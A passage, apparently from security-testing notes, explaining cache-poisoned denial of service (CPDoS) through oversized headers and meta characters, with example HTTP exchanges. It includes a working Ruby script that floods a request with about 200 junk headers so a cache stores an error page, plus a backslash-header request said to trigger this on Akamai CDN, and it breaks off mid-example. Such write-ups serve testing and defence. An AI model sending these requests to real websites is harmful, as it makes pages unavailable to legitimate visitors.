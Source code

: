 		HTTP/2 414 Request-URI Too Long
		X-Cache: MISS
		```

		```
		GET /assets/anything HTTP/2
		Host: redacted.com

		HTTP/2 414 Request-URI Too Long
		X-Cache: HIT
		```
- **CP-Dos**: 
	- **==HTTP Header Oversize (HHO)==**: HHO CPDoS attacks work in scenarios where a web application uses a cache that accepts a larger header size limit than the origin server. To attack such a web application, a malicious client sends a `HTTP GET` request including a header larger than the size supported by the origin server but smaller than the size supported by the cache. To do so, an attacker has two options. First, she crafts a request header with many malicious headers as shown in the following Ruby code snippet. The other option is to include one single header with an oversized key or value.
		```ruby
		require 'net/http'
		uri = URI("https://example.org/index.html")
		req = Net::HTTP::Get.new(uri)
		
		num = 200
		i = 0
		
		# Setting malicious and irrelevant headers fields for creating an oversized header
		until i > num  do
			req["X-Oversized-Header-#{i}"] = "Big-Value-0000000000000000000000000000000000"
			i +=1;
		end
		
		res = Net::HTTP.start(uri.hostname, uri.port, :use_ssl => uri.scheme == 'https') {|http|
			http.request(req)
		}
		```
		The cache forwards this request including all headers to the endpoint since the header size remains below the size limit of 20,480 bytes. The web server, however, blocks this request and returns an error page, as the request header exceeds its header size limit. This error page with status code `400 Bad Request` is now stored by the cache. All subsequent requests targeting the denied resource are now provided with an error page instead of the genuine content.
	- **==HTTP Meta Character (HMC)==**: This attack tries to bypass a cache with a request header containing a harmful meta character or invalid HTTP formation to trigger `400 Bad Request`, if cached then leads to DoS. Meta characters can be, e.g., control characters such as line break/carriage return (`\n`), line feed (`\r`) or bell (`\a`). For example; on **Akamai CDN**, the following character backward slash `\` causes `400 Bad request`, if cached then it leads to DoS:
		```
		GET /xx/xx/xx/xx?test HTTP/1.1  
		Host: redacted.com  
		\: 
